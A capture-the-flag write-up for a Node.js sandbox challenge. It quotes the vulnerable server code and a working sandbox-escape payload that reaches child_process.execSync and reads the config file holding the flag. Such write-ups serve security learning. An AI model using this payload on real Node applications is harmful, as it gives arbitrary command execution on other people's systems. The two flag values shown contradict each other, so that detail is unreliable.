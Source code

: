 # Day 10: >_ Run, Node, Run

Santa has practiced his nodejs skills and wants his little elves to practice it as well, so the kids can get the web-app they wish for.

He made a little practice sandbox for his elves. Can you break out?

[http://whale.hacking-lab.com:3000/](http://whale.hacking-lab.com:3000/)

### Description

The sandbox application let you run your JS code and then displayed the result. Its source code was publicly available.

![fake.png](files/sandbox.png "fake ball")

### Solution

The first step was obvious. I checked the sandbox's source code.

```javascript
const {flag, port} = require("./config.json");
const sandbox = require("sandbox");
const app = require("express")();

app.use(require('body-parser').urlencoded({ extended: false }));

app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
app.get("/code", (req, res) => res.sendFile(__filename));

app.post("/run", (req, res) => {

	if (!req.body.run) {
		res.json({success: false, result: "No code provided"});
		return;
	}

	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

});

app.listen(port);
```

The webapp was built on top of [Sandbox](https://github.com/gf3/sandbox) Node.js module. In order to find a vulnerability to escape from the sandbox I took a look at project's [opened issues](https://github.com/gf3/sandbox/issues). The 4th one from the top was particularly interesting: [Sandbox can be broken](https://github.com/gf3/sandbox/issues/50).

The issue report included PoC code with detailed explanation so it was pretty easy to start with my own experiments. After successful breakout I loaded [Child Process](https://nodejs.org/api/child_process.html#child_process_child_process) module in order to get remote access to shell and execute my commands.

This is what my RCE exploit looked like.

```javascript
function rce(command) {
   return eval(this.constructor.constructor('return process')())
      .mainModule
      .require('child_process')
      .execSync(command)
      .toString('utf8')
      .replace(/\n/g, ' ');
}
```

The final step was to simple read content of the configuration file by calling this piece of code.

```javacript
rce('cat ./config.json');
```

This was the content printed out.

```json
{ "flag":"HV18-YtH3-S4nD-bx5A-Nt4G", "port":3000}
```

And here is the flag stored in it.

```
HV18-PpTR-Qri5-3nOI-n51a-42gJ
```
